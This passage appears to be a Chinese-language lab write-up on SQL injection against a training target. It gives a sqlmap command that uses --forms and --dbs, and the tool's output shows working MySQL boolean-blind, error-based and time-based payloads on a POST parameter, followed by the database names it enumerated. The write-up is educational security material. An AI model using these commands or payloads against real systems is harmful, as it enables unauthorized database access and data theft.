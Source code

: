 - 对方有防火墙
- 有请求次数限制

接下来section的part将介绍手动注入，参考见[https://www.owasp.org/index.php/SQL_Injection](https://www.owasp.org/index.php/SQL_Injection)

### Section5-Vulnerable Web Application

实战。

对目标ip进行sqlmap（因为没有get的p参数，所以用了—forms）

```json
python sqlmap.py -u http://10.10.27.86  --forms --dbs --level 1
```

运行内容截取 🍈

```bash
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
结果： 
Parameter: msg (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
Payload: msg=ldLL' RLIKE (SELECT (CASE WHEN (8089=8089) THEN 0x6c644c4c ELSE 0x28 END))-- Hukx
Type: error-based
Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
Payload: msg=ldLL' AND GTID_SUBSET(CONCAT(0x7171627a71,(SELECT (ELT(8564=8564,1))),0x717a7a7071),8564)-- ANkH
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: msg=ldLL' AND (SELECT 9863 FROM (SELECT(SLEEP(5)))uRim)-- UOih
[23:24:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.6
[23:24:35] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/nnkmeopw/snap/sqlmap/18/.local/share/sqlmap/output/results-06072021_1111pm.csv'

web server operating system: Linux Ubuntu
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.6
[04:44:16] [INFO] fetching database names
[04:44:17] [INFO] retrieved: 'information_schema'
[04:44:18] [INFO] retrieved: 'mysql'
[04:44:18] [INFO] retrieved: 'performance_schema'
[04:44:18] [INFO] retrieved: 'sys'
[04:44:19] [INFO] retrieved: 'tests'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] tests
```
